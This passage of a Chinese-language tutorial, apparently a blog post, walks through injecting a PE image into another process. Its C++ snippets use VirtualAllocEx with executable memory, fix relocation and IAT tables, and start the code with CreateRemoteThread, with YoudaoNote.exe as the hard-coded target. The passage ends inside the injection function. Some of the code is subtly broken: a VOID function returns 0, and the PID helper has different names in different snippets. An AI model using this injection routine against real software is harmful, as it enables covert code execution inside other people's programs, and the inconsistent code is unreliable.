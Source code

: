 ```c++
HMODULE imagebase = ::GetModuleHandle(NULL);
```

通过PE头获取`SizeOfImage`参数

```c++
_size = pOptionHeader->SizeOfImage;
```

使用`VirtualAlloc`申请空间

```c++
pAddr = VirtualAlloc(NULL, _size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
```

打开要注入的进程

```c++
hprocess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, _getProcessPid(ProcessName));
```

使用`VirtualAllocEx`申请内存

```c++
pExAddr = ::VirtualAllocEx(hprocess, NULL, _size, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

然后再修复重定位表和IAT表

```c++
DWORD FixNewIATTable = (DWORD)FixIATTable  + (DWORD)pAddr - (DWORD)imagebase;
```

创建远程线程并等待消息返回，关闭句柄

```c++
hThread = ::CreateRemoteThread(hprocess, NULL, 0, (LPTHREAD_START_ROUTINE)FixNewIATTable, pAddr, 0, NULL);

WaitForSingleObject(hThread, -1);
CloseHandle(hThread);
```

注入函数的完整代码如下

```c++
VOID inject(LPCWSTR InjetName)
{
    //获取要注入的进程
    WCHAR ProcessName[] = TEXT("YoudaoNote.exe");
    DWORD dwPid = GetPid(ProcessName);

    if (dwPid == 0) 
    {
        printf("[!] GetPID failed,error is : %d\n\n", GetLastError());
        return 0;
    }
    else
    {
        printf("[*] GetPID successfully!\n\n");
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, dwPid);
    if (hProcess == NULL) 
    {
        printf("[!] OpenProcess failed,error is : %d\n\n", GetLastError());
        return 0;
    }
    else
    {
        printf("[*] OpenProcess successfully!\n\n");
```